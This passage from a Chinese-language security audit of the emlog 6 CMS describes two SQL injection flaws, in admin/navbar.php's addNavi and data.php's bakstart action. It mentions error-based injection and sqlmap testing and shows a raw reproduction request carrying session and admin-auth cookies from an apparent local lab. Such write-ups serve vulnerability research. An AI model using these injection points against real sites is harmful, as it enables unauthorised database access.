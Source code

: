 6.SQL注入漏洞2：
-----------

进入admin/navbar.php，发现这里接受POST传入的pages参数，遍历调用addNavi

![](https://cdn.nlark.com/yuque/0/2023/png/1353500/1684653788909-77daadcf-89ba-40f6-8e83-ebec2f663f42.png)

跟进addNavi函数

发现未对用户的输入进行过滤，导致sql注入漏洞产生。

![](https://cdn.nlark.com/yuque/0/2023/png/1353500/1684653820218-780a6c38-0146-46a4-b798-761cc81b34f6.png)

### 漏洞利用

进入自定义导航处。![](https://cdn.nlark.com/yuque/0/2023/png/1353500/1684653869891-9c54ae06-35a5-4c78-80de-b9337400b876.png)

然后进行报错注入尝试。

![](https://cdn.nlark.com/yuque/0/2023/png/1353500/1684653944231-3ffdb9aa-3716-4785-9b32-711b81971643.png)

使用sqlmap进行验证。

![](https://cdn.nlark.com/yuque/0/2023/png/1353500/1684654335595-d031a953-162f-48c9-821f-35e54622b77b.png)

7.SQL注入漏洞3
----------

进入data.php，发现bakstart 未对用户的输入进行过滤。

![](https://cdn.nlark.com/yuque/0/2023/png/1353500/1684750412029-00fd5451-34ad-415d-b617-8c153239a297.png)

### 漏洞复现：

POST /www.emlog6.com/src/admin/data.php?action=bakstart HTTP/1.1  
Host: 127.0.0.1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,\*/\*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 96  
Origin: <http://127.0.0.1>  
Connection: close  
Referer: <http://127.0.0.1/www.emlog6.com/src/admin/data.php?action>\[\]  
Cookie: em\_plugin\_new=block; commentposter=1; postermail=178499%40qq.com; posterurl=http%3A%2F%2F1; XXL\_JOB\_LOGIN\_IDENTITY=7b226964223a312c22757365726e616d65223a2261646d696e222c2270617373776f7264223a223864646366663361383066343138396361316339643464393032633363393039222c22726f6c65223a312c227065726d697373696f6e223a6e756c6c7d; PHPSESSID=4ia7lpsune36918ksppu61a8dq; EM\_TOKENCOOKIE\_caff76b1035523472f95e14586cabce5=cdfe196eb124564199f08c42e5970d1f; EM\_AUTHCOOKIE\_M7UXVI3lOecv3OwT3uWOBeOai1TmLrM1=admin%7C%7C6cf405b484dd316c6f2e1ecc5edfbcf9  
Upgrade-Insecure-Requests: 1  
Sec-Fetch-Dest: document  
Sec-Fetch-Mode: navigate  
Sec-Fetch-Site: same-origin  
Sec-Fetch-User: ?1

